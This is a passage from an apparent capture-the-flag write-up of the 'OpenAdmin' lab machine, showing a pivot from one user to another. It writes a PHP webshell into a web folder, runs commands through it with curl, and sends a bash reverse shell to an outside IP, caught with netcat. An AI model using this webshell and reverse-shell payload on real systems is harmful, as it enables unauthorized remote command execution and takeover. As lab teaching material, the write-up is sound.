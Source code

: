 ![](/img/image-20200118151918716.png)

### Path 1: Webshell

The initial way I solved this was to write a webshell into the root
directory for this folder:



    jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["0xdf"]); ?>'  
    <?php system($_GET["0xdf"]); ?>                   
    jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["0xdf"]); ?>' > 0xdf.php  



Now I can access that and get execution as joanna:



    root@kali# curl http://127.0.0.1:52846/0xdf.php?0xdf=id
    uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)



To get a shell, I can start `nc` and curl:



    root@kali# curl 'http://127.0.0.1:52846/0xdf.php?0xdf=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.11/443%200%3E%261%27'



Shell comes instantly:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.171.
    Ncat: Connection from 10.10.10.171:40556.
    bash: cannot set terminal process group (1004): Inappropriate ioctl for device
    bash: no job control in this shell
    joanna@openadmin:/var/www/internal$ id
    uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
